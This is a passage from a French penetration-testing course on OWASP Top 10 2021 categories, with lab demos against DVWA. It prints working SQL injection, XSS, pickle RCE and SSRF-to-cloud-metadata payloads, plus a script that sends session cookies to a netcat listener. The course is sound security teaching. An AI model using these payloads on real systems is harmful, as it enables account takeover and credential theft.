# puis recharger la page : le script s'exécute à chaque affichage

# XSS DOM — Juice Shop, champ de recherche :
<iframe src="javascript:alert(`xss`)">
```

**Comment tester méthodiquement.** 1) Cherche les endroits où l'application
affiche une entrée utilisateur (recherche, nom, commentaire, message d'erreur).
2) Envoie une chaîne neutre avec des marqueurs, ex. `testXYZ<>"'()` pour voir
**où** elle apparaît dans le HTML source (dans une balise ? dans un attribut ?
entre guillemets ?). 3) Adapte le payload au contexte : hors balise → `<script>` ;
dans un attribut → fermer l'attribut `">` ; dans une
valeur JavaScript → `';alert(1)//`. 4) Valide d'abord avec un `alert(1)`
inoffensif, puis passe au vol de cookie **en labo**.

**Comment s'en protéger.**

- **Encoder la sortie** (output encoding) selon le contexte : HTML, attribut, JS,
  URL. Les frameworks le font souvent automatiquement (motifs `{{ }}` en Vue,
  `` en Twig) — **ne jamais désactiver l'encodage automatique**.
- **CSP** (*Content-Security-Policy*, politique de sécurité du contenu) : en-tête
  HTTP qui dit au navigateur « n'exécute que les scripts provenant de ces
  origines » et interdit les scripts inline.
- Ne jamais utiliser `innerHTML` ni `eval` avec des données utilisateur ; préférer
  `textContent`, `createElement`.
- Filtrer côté serveur par **liste blanche** (autoriser ce qui est connu) plutôt
  que par liste noire (bloquer ce qui est connu — toujours incomplète).

**Résumé XSS.** Ne jamais afficher d'entrée utilisateur sans l'encoder. Un XSS =
un autre utilisateur exécute ton code dans son navigateur, dans ton contexte de
session.

#### c.3 — La notion de CSRF (et son rapport à l'injection)

**CSRF** (*Cross-Site Request Forgery* — falsification de requête inter-sites) :
un site **malveillant** (contrôlé par l'attaquant) fait envoyer par ton navigateur
une requête **authentique** vers le site cible, en profitant de ta session déjà
ouverte. Tu es **connecté** à ta banque dans un onglet ; dans un autre onglet tu
ouvres un site piégé ; ce site affiche une « image » dont l'URL est en réalité
`https://banque.fr/virement?montant=10000&dest=ATTAQUANT`. Ton navigateur envoie
la requête **avec ton cookie de session**, et la banque exécute le virement.

Ce n'est pas une injection (le serveur cible n'interprète pas de code) : c'est un
**abus de confiance** entre navigateur et serveur. Le serveur doit vérifier que
la requête vient **de son propre site**. Dans le Top 10 2021, CSRF n'a pas de
catégorie dédiée : il touche A04 (conception), A07 (authentification) et A01
(contrôle d'accès). Protections de base : **jeton CSRF** (secret généré par le
serveur, injecté dans chaque formulaire, vérifié à chaque POST), attribut
**SameSite** sur les cookies (`SameSite=Lax` ou `Strict` empêche l'envoi du cookie
lors de requêtes inter-sites), et vérification des en-têtes `Origin`/`Referer`.

**Résumé c) Injection.** A03 = « tes données sont devenues du code ». SQLi fait
exécuter du SQL à la base, XSS fait exécuter du JavaScript au navigateur de la
victime, command injection fait exécuter des commandes au système. La défense
universelle : **séparer toujours les données du code** (requêtes préparées,
encodage de sortie, listes blanches).

### d) A04:2021 — Insecure Design (conception non sécurisée)

**Définition.** Cette catégorie, **nouvelle en 2021**, ne concerne pas une erreur
de code mais un **défaut de conception** : l'architecture de l'application suppose
des choses fausses sur ses utilisateurs, ses flux ou ses limites. C'est la
différence entre « mal coder » (A03, A05) et **« mal penser »**. Exemples : une
application qui n'a pas de limite de crédit sur une fonction « recharger mon
compte », une procédure de réinitialisation de mot de passe qui n'exige rien de
plus que l'email, un « quiz » dont la note est calculée côté client.

**Pourquoi c'est dangereux.** Parce que les défauts de conception sont **là dès
la naissance** de l'application et qu'aucun correctif de code ne les répare : il
faut **repenser le flux**. Un attaquant qui trouve une logique métier cassée peut
se payer lui-même des crédits, acheter à -100 %, voter plusieurs fois, ou
réinitialiser le mot de passe d'un autre compte. C'est la famille préférée des
bug bounty hunters : elle ne déclenche aucun scanner, elle demande du
raisonnement.

**Exemple de code vulnérable** (logique métier : « recharger un solde ») :

```python
@app.post("/recharger")
def recharger():
    # L'application fait confiance à la quantité reçue, sans plafond ni vérification
    qte = int(request.form["qte"])           # ← l'utilisateur envoie -10000
    compte.solde += qte                       # ← son solde AUGMENTE
```

**Comment l'exploiter.** En labo (Juice Shop regorge de ces défis), on cherche des
**préconditions abusables** : envoyer une quantité négative, un prix négatif, un
identifiant de promotion sans lien avec le compte, rejouer une étape, contourner
un flux en appelant directement la deuxième étape. La méthode :
**cartographier le flux métier**, identifier ce que l'application suppose
implicitement, puis **tester chaque supposition**.

**Comment s'en protéger.** Modéliser les menaces et les limites dès la conception
(« à quel point l'état le plus mauvais peut-il devenir pire ? »), fixer des
**règles métier vérifiées côté serveur** (plafonds, unicité, séquence des étapes),
**limiter les débits** (rate limiting) sur les opérations sensibles, et tester les
flux critiques avec des scénarios adverses (quantités négatives, rejeu,
réordonnancement des étapes).

**Résumé.** A04 = « le problème est dans les plans, pas dans les murs ». Même du
code parfait ne répare pas une conception qui autorise, par défaut, l'abus de sa
propre logique.

### e) A05:2021 — Security Misconfiguration (mauvaise configuration)

**Définition.** L'application ou son environnement est **mal configuré** : des
fonctionnalités par défaut restent actives, des pages d'erreur révèlent des
informations, des répertoires sont listables, des en-têtes de sécurité manquent,
des comptes par défaut existent. Ce n'est pas le code qui est mauvais, c'est **le
réglage**. Exemples typiques : serveur qui affiche sa version exacte
(`Apache/2.4.54`), **CORS** (*Cross-Origin Resource Sharing* — mécanisme qui
permet à un site d'autoriser un autre domaine à lire ses réponses) configuré en
`Access-Control-Allow-Origin: *`, fichiers de sauvegarde `.bak` exposés dans le
dossier web, page d'erreur détaillant les chemins internes.

**Pourquoi c'est dangereux.** Parce que chaque réglage par défaut ou chaque
fichier exposé est une **porte déjà ouverte**. Une page d'erreur qui révèle le
chemin du code aide l'attaquant à viser. Un CORS `*` avec
`Access-Control-Allow-Credentials: true` permet à **n'importe quel site** de lire
les réponses de l'API — donc les données. Un dossier `.git` exposé permet de
**télécharger le code source entier** de l'application. Souvent, une seule
misconfiguration suffit à transformer une faille bénigne en compromission totale.

**Exemple de code vulnérable** (en-têtes CORS laxistes) :

```
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
# ← n'importe quel site peut lire les réponses de cette API, cookies inclus
```

**Comment l'exploiter.** Tests de terrain (sur tes labos uniquement) :

```bash
# 1) Vérifier les en-têtes de sécurité d'une réponse
curl -sI http://127.0.0.1:8000/ | grep -iE "content-security|x-frame|strict-transport"

# 2) Détecter le listage des répertoires ou les fichiers exposés
gobuster dir -u http://127.0.0.1:8000 -w /usr/share/wordlists/dirb/common.txt
curl -s http://127.0.0.1:8000/.git/HEAD          # exposé ? → le source fuit
curl -s http://127.0.0.1:8000/backup.sql         # base de données ?
curl -sI http://127.0.0.1:8000/.env

# 3) Repérer les pages d'erreur verbeuses
curl -s "http://127.0.0.1:8000/page-inexistante.php?id=oops"
# une stack trace PHP révélant chemins et versions = fuite d'information
```

**Comment s'en protéger.**

- **Bannière minimale** : masquer les versions (Apache, nginx, PHP, framework).
- **En-têtes de sécurité systématiques** : `Content-Security-Policy`,
  `X-Frame-Options: DENY` (empêche l'affichage dans une iframe → protège du
  clickjacking), `X-Content-Type-Options: nosniff`, `Referrer-Policy`,
  `Strict-Transport-Security`.
- **CORS le plus restrictif possible** : liste blanche explicite de domaines
  autorisés, jamais `*` avec credentials.
- **Pages d'erreur génériques** en production (aucun chemin, aucune version,
  aucun détail SQL).
- Désactiver le listage de répertoires, masquer les fichiers de configuration
  (`.git`, `.env`, `.bak`) hors du dossier public.
- Désactiver les comptes et mots de passe **par défaut**, changer les ports
  d'administration, appliquer les correctifs de configuration de sécurité.

**Résumé.** A05 = « les réglages par défaut sont des hypothèques » : chaque option
laissée par défaut est une porte non fermée. Un audit de configuration est une
**vérification d'inventaire** : qu'est-ce qui est ouvert, exposé, bavard, superflu ?

### f) A06:2021 — Vulnerable and Outdated Components (composants vulnérables et obsolètes)

**Définition.** Les applications modernes sont des **assemblages** : bibliothèques
JavaScript, frameworks, modules, plugins, images de conteneurs. Cette catégorie
concerne les composants **connus comme vulnérables** parce qu'ils sont obsolètes
ou non patchés. Une **CVE** (*Common Vulnerabilities and Exposures* — identifiant
normalisé d'une vulnérabilité publique, ex. `CVE-2021-44228`) documente la faille ;
le **NVD** (*National Vulnerability Database*, base de données publique américaine
des CVE) la référence. Un composant non mis à jour depuis des années contient
souvent des CVE **connues de tous** : une faille qui n'attend que d'être trouvée.

**Pourquoi c'est dangereux.** Parce que c'est la faille **la plus facile à
exploiter** : l'attaquant n'a rien à inventer. La CVE est documentée publiquement,
des **exploits publics** existent souvent (y compris dans **Metasploit**), et
l'application vulnérable n'a pas changé. Le cas historique le plus parlant :
**Log4Shell** (CVE-2021-44228), une faille dans la bibliothèque Java `log4j`
présente dans des millions de serveurs — quelques heures après sa divulgation,
des scans massifs parcouraient Internet pour la trouver.

**Exemple de code vulnérable.** Il n'y a pas de ligne de code « fautive » : le
problème est dans le **fichier de dépendances** :

```json
{
  "dependencies": {
    "lodash": "4.17.11",
    "jquery": "1.12.4"
  }
}
```

Ces deux versions sont vulnérables : `lodash` < 4.17.12 expose une faille de
prototype pollution (CVE-2019-10744), et `jquery` < 3.5 expose des XSS connus
(notamment via `$.extend`). La ligne qui manque est simplement… une version à jour.

**Comment l'exploiter.** On ne « code » pas un exploit : on **identifie** le
composant puis on applique l'exploit public, en labo :

```bash
# 1) Énumérer les technologies de la cible (niveau 4) puis relever leur version
curl -sI http://127.0.0.1:8000/ | grep -i server
whatweb http://127.0.0.1:8000/

# 2) Chercher les CVE connues pour la version trouvée
searchsploit "apache 2.4.49"        # ex. path traversal CVE-2021-41773

# 3) Reproduire l'exploit documenté sur la copie labo uniquement
```

**Comment s'en protéger.**

- **Inventorier** tous les composants et versions (un SBOM — *Software Bill of
  Materials*, « liste des ingrédients » logiciels d'une application).
- **Surveiller les CVE** de ces composants (NVD, GitHub Advisories, `osv.dev`).
- **Purger ou remplacer** les composants obsolètes, non maintenus ou « abandonnés ».
- **Automatiser** la détection : `npm audit`, `pip-audit`, `trivy`, `grype`,
  `dependabot` (vérifie les dépendances et ouvre des correctifs automatiques).
- Appliquer les mises à jour de sécurité **rapidement** : les exploits publics
  arrivent souvent en moins de 48 h après la divulgation d'une CVE critique.

**Résumé.** A06 = « chaque bibliothèque oubliée est une dette qui rapporte des
intérêts en exploits ». On ne peut pas sécuriser ce qu'on ne connaît pas : la
première défense est **l'inventaire**.

### g) A07:2021 — Identification and Authentication Failures (échecs d'identification et d'authentification)

**Définition.** L'identification (qui es-tu ?) et l'authentification (prouve-le)
sont les portes d'entrée de l'application. Cette catégorie regroupe tous les
défauts autour de ces mécanismes : **bruteforce** possible (pas de limite de
tentatives), **credential stuffing** (réutilisation de mots de passe volés sur
d'autres sites), **session fixation** (forcer la session d'une victime à une
valeur connue), **MFA** (*Multi-Factor Authentication*, authentification
multi-facteurs) faible ou contournable, mots de passe faibles autorisés,
réinitialisation de mot de passe fragile, stockage en clair des identifiants.

**Pourquoi c'est dangereux.** Parce qu'une porte d'entrée fragile, c'est tout le
reste qui s'effondre. Un compte sans protection contre le bruteforce se devine ;
un compte avec un mot de passe déjà volé ailleurs se prend par **credential
stuffing** (l'attaquant réutilise les listes de mots de passe fuitées) ; une
session qu'on peut fixer se détourne ; un MFA par SMS se contourne par phishing.
C'est la première étape de presque tous les scénarios d'attaque sérieux.

**Exemple de code vulnérable** (PHP — aucune limitation de tentatives) :

```php
<?php
$user = $_POST["username"];
$pass = $_POST["password"];
// PAS de compteur de tentatives, PAS de délai, PAS de CAPTCHA
$req = "SELECT * FROM users WHERE username = '$user' AND password = '$pass'";
//     ← A07 : un robot peut essayer des millions de combinaisons + A03 : SQLi
?>
```

**Comment l'exploiter.** Le bruteforce (essai systématique de mots de passe) se
fait avec **hydra** ou **Burp Intruder** sur une liste de mots de passe comme
**rockyou.txt** (liste publique de mots de passe volés et rendus publics, fournie
avec Kali Linux). Nous le verrons en détail dans la section Démonstration
(démo 5). Si l'application n'implémente aucun **rate limiting** (limitation du
débit de requêtes), l'attaquant peut tester des milliers de combinaisons en
quelques minutes. Le test de **session fixation** consiste à fixer le cookie de la
victime à une valeur connue, puis à vérifier si le serveur le change après
connexion.

**Comment s'en protéger.**

- **Rate limiting** et verrouillage progressif : 3-5 échecs → délai croissant ;
  réponse **429 Too Many Requests** (code HTTP « trop de requêtes »).
- **MFA** pour les comptes sensibles, en préférant les applications
  d'authentification (TOTP — *Time-based One-Time Password*, mot de passe à usage
  unique temporisé) au SMS.
- **Mots de passe robustes**, vérifiés contre les listes de fuites (API Pwned
  Passwords).
- **Renouveler les identifiants de session** après connexion (neutralise la
  session fixation) ; **invalider les sessions** côté serveur.
- **Réinitialisation de mot de passe sécurisée** : lien à usage unique, lié au
  compte, jamais une simple question « quel est ton film préféré ? ».
- Ne **jamais** stocker les mots de passe en clair (voir A02).

**Résumé.** A07 = « la porte d'entrée est mal gardée » : pas de limite d'essais,
sessions volables, MFA absent. Renforcer l'entrée, c'est souvent suffisant pour
que l'attaquant passe au voisin.

### h) A08:2021 — Software and Data Integrity Failures (échecs d'intégrité des logiciels et des données)

**Définition.** Cette catégorie regroupe les attaques contre l'**intégrité** : la
certitude que le code et les données n'ont pas été modifiés par un tiers. Les
deux formes principales : la **désérialisation non sécurisée** (l'application
convertit des données sérialisées — un objet transformé en texte — en objets du
langage, en faisant confiance au flux d'entrée) et les **pipelines non vérifiés**
(mises à jour de logiciels, images de conteneurs, dépendances téléchargées sans
vérification de signature). En 2021, la catégorie élargit l'ancienne « Insecure
Deserialization » pour couvrir toute faille d'intégrité du code et des données.

**Pourquoi c'est dangereux.** La désérialisation est redoutable : l'attaquant
envoie un flux d'objets conçu pour déclencher, à la construction des objets,
l'exécution de code arbitraire. C'est une **RCE** (*Remote Code Execution* —
exécution de code à distance). Un pipeline non vérifié est tout aussi grave : si
le mécanisme de mise à jour d'un logiciel ne vérifie pas la signature des paquets,
un attaquant peut distribuer son propre « logiciel » à des milliers de machines
(attaque de la chaîne d'approvisionnement, *supply chain*). Les dépendances non
signées (téléchargées sans vérification de checksum) relèvent aussi de cette
catégorie.

**Exemple de code vulnérable** (Python — désérialisation `pickle` d'une donnée
non fiable) :

```python
import pickle

data = request.get_data()              # ← flux fourni par l'utilisateur
obj = pickle.loads(data)               # ← A08 : exécute du code à la désérialisation !
```

**Comment l'exploiter.** En labo, on construit un flux `pickle` malveillant qui
exécute une commande à la désérialisation (démonstration **uniquement** sur une
machine isolée) :

```python
import pickle, os

class RCE:
    def __reduce__(self):
        return (os.system, ("id",))     # s'exécute quand pickle.loads() lit le flux

malicious = pickle.dumps(RCE())          # ← objet sérialisé malveillant
print(malicious.hex())                   # le flux à envoyer à l'application
```

**Comment s'en protéger.**

- **Ne jamais désérialiser de données non fiables** ; quand c'est inévitable,
  utiliser des formats sûrs (JSON) et des bibliothèques dédiées.
- **Vérifier les signatures** et les checksums des dépendances et des mises à jour,
  ainsi que **les signatures des artefacts** de build (CI/CD).
- **Isoler** les pipelines de build et de déploiement, verrouiller les dépendances
  (version précise, registre privé).
- Prouver l'intégrité des flux de données (MAC/HMAC, signatures numériques).

**Résumé.** A08 = « on ne peut pas faire confiance à ce qui arrive de
l'extérieur » : une donnée désérialisée ou une mise à jour non signée est du code
en puissance. L'intégrité se prouve par signature, pas par espérance.

### i) A09:2021 — Security Logging and Monitoring Failures (absence de journalisation et de surveillance)

**Définition.** Cette catégorie concerne l'**absence ou l'insuffisance** de
journalisation (*logging* : enregistrement des événements) et de surveillance
(*monitoring* : détection des anomalies). L'application ne journalise pas les
échecs de connexion, ne journalise pas les actions sensibles, ne génère pas
d'alertes, et les journaux ne sont ni protégés ni analysés. Conséquence directe :
**une intrusion passe inaperçue**, parfois pendant des mois.

**Pourquoi c'est dangereux.** « Si tu ne le vois pas, tu ne peux ni le stopper ni
le comprendre. » Le temps de détection d'une intrusion (le *dwell time*) se mesure
souvent en **mois**. Sans journaux, impossible de savoir **quoi** l'attaquant a
fait, **quelles** données il a touchées, **par où** il est entré — donc impossible
de corriger, d'alerter les victimes, ou de défendre son dossier devant les
tribunaux ou les assureurs. C'est le « filet de sécurité » de toutes les autres
catégories : un site peut être cassé (A01, A03…), mais s'il **journalise**, on
peut au moins répondre. S'il ne journalise pas, l'attaque est **invisible**.

**Exemple de code vulnérable** (PHP) :

```php
<?php
if ($user && password_verify($pass, $hash)) {
    // connexion réussie... et RIEN n'est journalisé
} else {
    // échec... et RIEN n'est journalisé non plus
    // ← A09 : pas de log, pas d'alerte, pas d'horodatage
}
?>
```

**Comment l'exploiter.** Un attaquant n'exploite pas A09 « activement » : il en
**profite**. Le pentester, lui, **vérifie** que l'application journalise :

```bash
# Test : provoquer des événements de sécurité et vérifier s'ils apparaissent dans les logs
# 1) 5 connexions échouées volontaires
# 2) 1 connexion réussie
# 3) consulter les logs du serveur (Apache : /var/log/apache2/access.log)
tail -n 20 /var/log/apache2/access.log
# Si on ne distingue PAS les échecs des succès, si aucune alerte n'existe → A09 confirmé
```

**Comment s'en protéger.**

- **Journaliser** : échecs et succès de connexion, changements de privilèges,
  opérations sensibles (suppression, virement), chaque événement avec
  **horodatage**, **adresse IP**, **identifiant utilisateur** et résultat.
- **Protéger** les journaux contre la modification (les attaquants effacent leurs
  traces) et les **archiver** selon les exigences réglementaires.
- **Centraliser** (SIEM — *Security Information and Event Management*, outil
  d'agrégation et d'analyse des journaux) et **alerter** sur les schémas anormaux
  (10 échecs en 1 minute, accès admin la nuit).
- **Tester régulièrement** que la journalisation fonctionne (les logs silencieux
  n'existent pas).

**Résumé.** A09 = « on n'arrête que ce qu'on voit ». Des journaux complets et
surveillés transforment une intrusion silencieuse en incident traité en quelques
heures.

### j) A10:2021 — Server-Side Request Forgery (SSRF)

**Définition.** **SSRF** (*Server-Side Request Forgery* — falsification de
requête côté serveur) : l'attaquant fait **exécuter des requêtes HTTP par le
serveur**, à la place de l'application, vers des adresses que le serveur peut
joindre mais que l'attaquant ne peut pas joindre directement. Le cas le plus
classique : la fonction « vérifier une URL » ou « importer une image depuis une
URL » demande au serveur de charger une URL — l'attaquant lui donne une URL
**interne**.

**Pourquoi c'est dangereux.** Le serveur se situe **dans** le réseau interne : il
peut atteindre `localhost`, les autres serveurs de la société, les bases de
données, les interfaces d'administration et — dans le cloud — le **service de
métadonnées** des fournisseurs (AWS, GCP, Azure), accessible à l'adresse spéciale
**169.254.169.254**. Ce service répond aux machines de l'infrastructure avec
leurs secrets : clés d'accès cloud, tokens, identifiants. Un SSRF bien exploité
peut donc transformer une petite fonctionnalité « prévisualiser une image » en
**vol des clés du cloud entier**.

**Exemple de code vulnérable** (Python / Flask — une fonction qui charge une URL
fournie par l'utilisateur) :

```python
import requests

@app.post("/apercu")
def apercu():
    url = request.form["url"]            # ← entièrement contrôlée par l'utilisateur
    reponse = requests.get(url)          # ← le SERVEUR fait la requête vers cette URL
    return reponse.text                  # ← et renvoie la réponse à l'attaquant
```

**Comment l'exploiter.** En labo, on donne au serveur des URLs internes :

```bash
# 1) Tester le localhost du serveur
curl -X POST "http://127.0.0.1:8000/apercu" -d "url=http://127.0.0.1:8000/internal/admin"

# 2) Scanner de petites plages du réseau interne du serveur (en labo)
curl -X POST "http://127.0.0.1:8000/apercu" -d "url=http://192.168.50.10:80/admin"

# 3) En cloud, tenter le métadata service (AWS/GCP/Azure) — UNIQUEMENT sur tes labos cloud
curl -X POST "http://127.0.0.1:8000/apercu" \
     -d "url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"
# Si le serveur renvoie la réponse : les clés cloud sont récupérables → SSRF critique
```

**Comment s'en protéger.**

- **Liste blanche d'hôtes et de schémas autorisés** : n'accepter que `https://`
  vers des domaines connus ; refuser les IP privées (`127.0.0.0/8`, `10.0.0.0/8`,
  `172.16.0.0/12`, `192.168.0.0/16`, `169.254.169.254`) et les redirections.
- **Valider côté serveur** (jamais côté client), **résoudre puis revérifier** le
  DNS (l'attaquant peut faire pointer son domaine vers une IP interne).
- **Segmenter le réseau** : le serveur web ne doit pas avoir d'accès direct au
  métadata ni aux services internes.
- **Privilégier IMDSv2** (les versions de l'API de métadonnées qui exigent un
  en-tête de session) plutôt que IMDSv1, pour limiter l'impact d'un SSRF cloud.

**Résumé.** A10 = « le serveur fait les devoirs de l'attaquant » : toute fonction
qui charge une URL fournie par l'utilisateur peut devenir un cheval de Troie vers
le réseau interne et le métadata cloud. On ne laisse jamais un serveur aller là où
il n'a pas besoin d'aller.

---

## Visualisation

### Les 10 catégories avec leur poids (occurrence 2021)



> **Lecture.** A01 et A03 sont les plus fréquentes ; A10 (SSRF) est rare mais
> souvent catastrophique — sa présence dans le Top 10 vient d'un sondage de la
> communauté des pentesters, pas du seul volume d'occurrences.

### Injection SQL : requête construite vs requête injectée (ASCII)

```
  REQUÊTE CONSTRUITE PAR L'APPLICATION (champ "id" = 1) :
  ┌───────────────────────────────────────────────────────────────┐
  │ SELECT first_name, last_name FROM users WHERE user_id = '1'; │
  └───────────────────────────────────────────────────────────────┘
                       │
                       │ l'application concatène le champ utilisateur
                       ▼
  REQUÊTE APRÈS INJECTION (champ "id" = 1' OR '1'='1'-- -) :
  ┌───────────────────────────────────────────────────────────────┐
  │ SELECT first_name, last_name FROM users                       │
  │ WHERE user_id = '1' OR '1'='1'-- -';                          │
  └───────────────────────────────────────────────────────────────┘
        │            │           │
        │            │           └── "-- -" transforme le reste ("';") en commentaire
        │            └── "OR '1'='1'" est TOUJOURS vrai
        └── fermeture du guillemet : on sort de la chaîne
                    │
                    ▼
  Résultat : la condition est vraie pour TOUTES les lignes → la base
  renvoie tous les utilisateurs, ou un accès « connecté » sans mot de passe.
```

### XSS stocké : attaquant → serveur → victime (séquence)



### SSRF : le serveur comme proxy vers l'interne



### Comparaison OWASP Top 10 2021 vs 2017

| Rang 2021 | 2021 | 2017 | Mouvement |
| --------- | ---- | ---- | --------- |
| A01 | Broken Access Control | A05 Broken Access Control | ↑ (4 places) |
| A02 | Cryptographic Failures | A03 Sensitive Data Exposure | ↑ (1 place) |
| A03 | Injection | A01 Injection | ↓ (2 places) |
| A04 | Insecure Design | — | 🆕 nouveau |
| A05 | Security Misconfiguration | A06 Security Misconfiguration | ↑ (1 place) |
| A06 | Vulnerable and Outdated Components | A09 Using Components with Known Vulnerabilities | ↑ (3 places) |
| A07 | Identification & Authentication Failures | A02 Broken Authentication | ↓ (5 places) |
| A08 | Software & Data Integrity Failures | A08 Insecure Deserialization (élargie) | = (élargie) |
| A09 | Security Logging & Monitoring Failures | A10 Insufficient Logging & Monitoring | ↑ (1 place) |
| A10 | Server-Side Request Forgery (SSRF) | — | 🆕 nouveau (sondage) |

À noter : le **XSS** (A07:2017) n'apparaît plus comme catégorie autonome en 2021 —
il est **fusionné dans A03 Injection**.

### Impacts sur la confidentialité, l'intégrité, la disponibilité

Le modèle **CIA** (Confidentiality / Integrity / Availability —
Confidentialité / Intégrité / Disponibilité) est la grille d'impact utilisée dans
tout rapport de sécurité.

| Catégorie | Impact confidentialité (C) | Impact intégrité (I) | Impact disponibilité (A) |
| --------- | -------------------------- | -------------------- | ------------------------ |
| A01 Access Control | lecture des données d'autrui | modification / suppression | interruption via admin détourné |
| A02 Crypto Failures | **fuite de données sensibles** | altération (hashs non détectés) | — |
| A03 Injection | **lecture de toute la base** | modification des données | attaques destructives (jamais en labo) |
| A04 Insecure Design | fuites par logique métier | abus métier (paiements) | épuisement de ressources |
| A05 Misconfiguration | fichiers et information exposés | CORS → écriture croisée | — |
| A06 Composants obsolètes | selon la CVE | selon la CVE | déni de service via CVE publiques |
| A07 Auth failures | prise de contrôle de comptes | usurpation d'identité | verrouillage par bruteforce |
| A08 Intégrité | — | **exécution de code** | RCE → prise de contrôle |
| A09 Logging | — | falsification des traces | invisibilité des attaques |
| A10 SSRF | **lecture de l'interne + métadata** | appels internes abusifs | balayage / DoS interne |

---

## Démonstration

Cinq démonstrations complètes. Chacune suit le plan : **Contexte, Objectif,
Commande/Payload, Explication ligne par ligne, Résultat attendu, Analyse, Erreurs
fréquentes, Correction**. Toutes doivent être reproduites **en laboratoire**.

> **⚠️ Légal** — Ces démonstrations ne fonctionnent QUE sur des applications que
> tu possèdes (DVWA sur `127.0.0.1`), sur des labs PortSwigger Web Security
> Academy (plateforme d'entraînement gratuite qui t'autorise explicitement les
> tests), ou sur Juice Shop. Exécuter l'une de ces commandes contre un site réel
> est **illégal**, même « juste pour voir ».

### Démo 1 — Injection SQL : contournement d'authentification (DVWA)

**Contexte.** Tu audites DVWA (niveau « low ») hébergée en local. Le formulaire de
connexion construit sa requête par concaténation (voir la théorie, section c.1).

**Objectif.** Se connecter comme **admin sans connaître son mot de passe**, en
prouvant que la requête SQL est manipulable.

**Payload.** Dans le champ *username*, saisir :

```sql
admin'-- -
```

et n'importe quoi dans le champ mot de passe (par exemple `x`).

**Explication ligne par ligne.** La requête construite par l'application devient :

```sql
SELECT * FROM users WHERE username = 'admin'-- -' AND password = 'x'
```

- `admin'` ferme le guillemet qui entoure le nom d'utilisateur ;
- `-- -` ouvre un **commentaire SQL** : tout ce qui suit (la condition sur le mot
  de passe) est ignoré ;
- la requête devient « WHERE username = 'admin' » **sans vérifier le mot de
  passe**.

Équivalent automatisé en `curl` (utile pour les scripts) :

```bash
# Récupérer un cookie de session DVWA, puis envoyer le payload
curl -s -c cookies.txt "http://127.0.0.1/dvwa/login.php"
PHPSESSID=$(grep PHPSESSID cookies.txt | awk '{print $NF}')
curl -s -b "PHPSESSID=$PHPSESSID" \
     -d "username=admin'-- -&password=x&Login=Login" \
     "http://127.0.0.1/dvwa/login.php" | grep -i "welcome"
```

**Résultat attendu.** Connexion réussie en tant qu'admin (DVWA affiche « Welcome
to Damn Vulnerable Web Application »). Sans la faille, l'application refuserait la
connexion avec « Login failed ».

**Analyse.** La faille est **A03 Injection** (SQLi), au cœur de la logique
d'authentification : l'attaquant ne « devine » pas le mot de passe, il
**neutralise la vérification**. Impact : prise de contrôle totale du compte admin
→ A01 (access control) s'effondre, A07 (auth) est neutralisée.

**Erreurs fréquentes.**

1. Oublier le guillemet de fermeture `'` : sans lui, la chaîne reste ouverte et la
   syntaxe casse.
2. Oublier le commentaire : sans `-- -`, le `AND password = 'x'` reste actif et la
   condition est fausse.
3. Tester sur le champ mot de passe au lieu du champ utilisateur : les deux
   peuvent marcher selon le code, mais le champ utilisateur est la cible classique.

**Correction.** Côté développeur : **requêtes préparées** (paramètres liés),
jamais de concaténation. En PHP :

```php
$stmt = $conn->prepare("SELECT * FROM users WHERE username = ?");
$stmt->bind_param("s", $user);
```

Côté pentester : documenter la preuve (requête construite, capture) et la classer
en A03, impact critique.

### Démo 2 — XSS réfléchi, XSS stocké et vol de cookie (DVWA)

**Contexte.** DVWA expose deux terrains de XSS : `xss_r` (réfléchi) et `xss_s`
(stocké). Nous allons prouver les trois niveaux : alerte (preuve), persistance
(stocké) et exfiltration de cookie.

**Objectif.** 1) Déclencher une alerte via XSS réfléchi. 2) Prouver le XSS stocké
(persistance). 3) Voler un cookie de session en labo et le rejouer.

**Commande / payload.** Étape A — XSS réfléchi :

```bash
# La preuve minimale de XSS : une boîte d'alerte
curl -s "http://127.0.0.1/dvwa/vulnerabilities/xss_r/?name=<script>alert(1)</script>" \
     | grep -o "<script>alert(1)</script>"
```

Étape B — XSS stocké : poster un commentaire piégé dans `xss_s`, puis ouvrir la page.

```bash
curl -s -b "PHPSESSID=$PHPSESSID" \
     -d "txtName=att&mtxMessage=<script>alert('stocke')</script>&btnSign=Sign+Guestbook" \
     "http://127.0.0.1/dvwa/vulnerabilities/xss_s/"
```

Étape C — vol de cookie : lancer un serveur d'écoute, poster un payload qui
exfiltre le cookie, puis relire le cookie reçu.

```bash
# 1) L'attaquant ouvre un écouteur sur le port 8080 :
nc -lvnp 8080

# 2) Le payload posté (dans le champ commentaire de xss_s) :
# <script>fetch('http://127.0.0.1:8080/?c='+encodeURIComponent(document.cookie))</script>

# 3) Quand la victime consulte la page, le script s'exécute :
# l'écouteur affiche : GET /?c=PHPSESSID=abcdef123456...

# 4) Rejouer le cookie volé pour usurper la session :
curl -s -b "PHPSESSID=abcdef123456..." "http://127.0.0.1/dvwa/index.php"
```

**Explication ligne par ligne.**

- `xss_r/?name=<script>alert(1)</script>` : le paramètre `name` est réfléchi tel
  quel dans la page ; le navigateur exécute le script. `alert(1)` est la preuve
  minimale et inoffensive.
- Le payload stocké est enregistré dans la base : **chaque** visiteur de la page
  le déclenche (persistance).
- `fetch('http://127.0.0.1:8080/?c='+document.cookie)` : le script envoie le
  cookie courant vers le serveur de l'attaquant. `encodeURIComponent()` garantit
  un encodage propre dans l'URL. C'est un **GET cross-origin** : le navigateur
  envoie bien la requête (il ne peut simplement pas *lire* la réponse, qui est
  bloquée par CORS — l'envoi suffit pour l'exfiltration).
- `nc -lvnp 8080` : `netcat` écoute en mode liste (`-l`), verbeux (`-v`), sans
  résolution DNS (`-n`), sur le port `8080` (`-p`).

**Résultat attendu.** Une alerte sur `xss_r` ; le commentaire stocké déclenche une
alerte chez tous les visiteurs ; l'écouteur reçoit `GET /?c=PHPSESSID=...` ; le
cookie rejoué ouvre la session de la victime.

**Analyse.** La faille est **A03 (XSS)** — réfléchi et stocké. L'impact réel
démontré : **vol de session** (A07) via JavaScript. La différence clé : le
réfléchi n'existe que si la victime clique sur un lien piégé (nécessite du
phishing), le stocké touche tout visiteur sans action de sa part.

**Erreurs fréquentes.**

1. Utiliser un payload destructif ou trop bavard : on prouve avec `alert(1)`, on
   n'embarrasse pas la cible.
2. Oublier l'**encodage** : dans une URL, les `<>` et `"` doivent être encodés
   (`%3C`, `%3E`) ; via curl, préférer `--data-urlencode`, et via Burp, l'onglet
   *Repeater*.
3. Tester `fetch` vers une URL **sans listener** : l'exfiltration semble « ne rien
   faire ». Toujours ouvrir l'écouteur **avant** de poster le payload.
